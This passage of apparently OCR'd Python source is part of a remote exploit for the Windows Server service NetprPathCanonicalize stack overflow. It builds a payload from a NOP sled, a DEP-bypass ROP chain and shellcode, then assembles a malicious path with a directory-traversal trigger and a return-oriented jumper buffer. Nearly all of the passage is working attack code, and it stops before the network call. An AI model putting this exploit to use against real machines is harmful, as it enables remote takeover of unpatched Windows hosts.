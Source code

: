     ploffset = cfg['ploffset']
    plnops   = cfg['plnops']
    stkalign = cfg['stkalign']
    
    rop   = deprop()
    
    nops = "\x90" * (plsize - ploffset)
    
    payload = list('\x41' * plsize)
    payload[ploffset: (ploffset + len(nops))] = nops
    # prepare the shellcode parts
    # calc offsets
    depoffset = (ploffset + len(rop))
    salinoffset = (depoffset + plnops)
    shellcodeffset = (depoffset + plnops + len(stkalign))
    
    # assemble
    payload[ploffset: depoffset] = rop
    payload[salinoffset: shellcodeffset] = stkalign
    payload[shellcodeffset: (shellcodeffset + len(SHELLCODE))] = SHELLCODE
    
    return ''.join(payload)


def exploit(target, cfg):
    """
    NET_API_STATUS NetprPathCanonicalize(
     [in, string, unique] SRVSVC_HANDLE ServerName,
     [in, string] WCHAR* PathName,                     <- Vulnerable parameter
     [out, size_is(OutbufLen)] unsigned char* Outbuf,
     [in, range(0,64000)] DWORD OutbufLen,
     [in, string] WCHAR* Prefix,
     [in, out] DWORD* PathType,
     [in] DWORD Flags
     );
   
   The evil path Size will be 618 the path format will be similar to metasploit:
   [UNICODE PREFIX][payload 508][trigger 14][pading 14][landing buffer 78][null 2]
    """
    jumperoffset = cfg['retoffset']
    ldsize = cfg['ldsize']
    
    SERVER_LENGTH = 6
    server = rand_text_alpha(SERVER_LENGTH)
    prefix = '\\'
    outbuf = 2
    path_type = 1
    flags = 0
    
    trigger = to_unicode("\\..\\..\\")
    pad = to_unicode("ACSDPOX")    
    
    pyload = payload(cfg)
    jumper_rop = jmprop(cfg)
    
    jumper = list("\x42" * ldsize)
    jumper[jumperoffset:(jumperoffset + len(jumper_rop))] = jumper_rop
    
    path = to_unicode(prefix) + pyload + trigger + pad + ''.join(jumper) + "\x00" * 2
    
    print "Evil Jumper size: %s " % len(jumper)
    print "Evil Payload size: %s " % len(pyload)
    print "Evil Path size: %s " % len(path)
    